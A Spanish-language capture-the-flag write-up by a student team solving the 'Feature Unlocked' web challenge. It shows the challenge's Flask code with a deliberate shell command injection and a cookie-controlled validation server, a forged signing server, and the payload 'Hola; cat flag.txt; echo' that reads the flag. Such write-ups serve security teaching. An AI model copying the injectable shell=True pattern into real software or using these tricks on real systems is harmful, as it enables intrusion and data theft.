









# Informe Reto 4

## Integrantes
- Bértoli Rafael
- Rojas Manuel
- Lombardo Larrain Tobías
- Soler Santiago

## Grupo
CHEDICHI

## Descripción del Reto

Para este cuarto CTF decidimos realizar **“Feature Unlocked”** de la categoría **“Web”**.



## Solución del Reto

En la descripción podemos encontrar dos cosas: en primer lugar, podemos descargar un rar que contiene todo el código de la página para ejecutarlo de manera local usando docker, y también, un link a la página en cuestión



Mirando el código vemos que es una aplicación flask con una ruta raíz, una ruta “/release” y otra “/feature”.

```
@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)


@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))
```

También mirando el docker vemos que hace una copia del archivo con la flag en el container dando la pista de que la flag va a estar dentro de la aplicación


Al tocar en el botón “Release”, nos dirigía a un contador que nos decía que recién en 7 días íbamos a poder ver la flag, pero nosotros obviamente no pensábamos esperar tanto:



Al visualizar el código mencionado, nos dimos cuenta que la aplicación genera una cookie llamada preferences, cuando ingresamos a la raíz:

```
def get_preferences():
    preferences = request.cookies.get('preferences')
    if not preferences:
        response = make_response(render_template(
            'index.html', new_feature=False))
        response.set_cookie('preferences', DEFAULT_PREFERENCES)
        return json.loads(base64.b64decode(DEFAULT_PREFERENCES)), response
    return json.loads(base64.b64decode(preferences)), None


@app.route('/')
def index():
    _, response = get_preferences()
    return response if response else render_template('index.html', new_feature=False)
```



En esta cookie se almacena tanto un supuesto “theme” y un “language” encodeados en base64. Habiendo visto esto, vemos en el código que en release pregunta por un parámetro “debug” en true y en caso de que se cumpla la condición, se setea el valor de validation server que se va a usar en la app tomandolo del que se encuentre actualmente en la cookie

```
@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)
```

Ese validation server es utilizado para validar la fecha de salida de la nueva feature y, si este validation server devuelve una fecha posterior a la fecha actual, otorga un token para poder acceder a la nueva feature:

```
def get_pubkey(validation_server):
    try:
        response = requests.get(f"{validation_server}/pubkey")
        response.raise_for_status()
        return ECC.import_key(response.text)
    except requests.RequestException as e:
        raise Exception(
            f"Error connecting to validation server for public key: {e}")


def validate_access(validation_server):
    pubkey = get_pubkey(validation_server)
    try:
        response = requests.get(validation_server)
        response.raise_for_status()
        data = response.json()
        date = data['date'].encode('utf-8')
        signature = bytes.fromhex(data['signature'])
        verifier = DSS.new(pubkey, 'fips-186-3')
        verifier.verify(SHA256.new(date), signature)
        return int(date)
    except requests.RequestException as e:
        raise Exception(f"Error validating access: {e}")


def validate_server(validation_server):
    try:
        date = validate_access(validation_server)
        return date >= NEW_FEATURE_RELEASE
    except Exception as e:
        print(f"Error: {e}")
    return False
```

En el proyecto también muestran un pequeño validation server que nos muestra cómo debería comportarse el validation_server:

```
from flask import Flask, jsonify
from datetime import datetime
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()))
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=1338)
```

De esta manera, entendimos que agregando a la cookie un validation server que se comporte como este validation server, pero que devuelva una fecha posterior a la actual, la aplicación nos daría el token para acceder a la nueva feature.
 
Para esto primero modificamos el codigo que vimos anteriormente para que devuelva una fecha bastante posterior, como por ejemplo 26 de mayo de 2040:

```
@app.route('/', methods=['GET'])
def index():
    specific_date = datetime(2040, 5, 26)
    date = str(int(specific_date.timestamp()))
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })
```
Y una vez levantado este validation server modificado localmente, accedimos a la api que nos mostraba y tomamos los datos que usamos para levantar en una pequeña api con beeceptor.com, que nos permitio levantar mock de api de manera gratuita en
https://dsa-ctf.free.beeceptor.com/.
Teniendo nuestro propio validation server, lo agregamos encodeado en base64 para poder modificar nuestra cookie:



Entonces, volvemos a entrar a la página del contador, pero pasando el parámetro debug=true y la cookie modificada:



Una vez modificados, nos devuelve el botón ya que obtuvimos el access_token para la feature:



Clickeamos en ese botón y nos aparece lo siguiente:



Luego de volver a ver el código, notamos que el texto ingresado en ese campo lo leía y ejecutaba en una shell de la siguiente manera:

```
@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))
```

Por lo que detectando la vunerabilidad RCE, intentamos vulnerarlo de distintas maneras, hasta que lo conseguimos ingresando el siguiente texto/comando 

```
Hola; cat flag.txt; echo
```
lo cual nos devolvió la flag: CSCTF{d1d_y0u_71m3_7r4v31_f0r_7h15_f146?!}

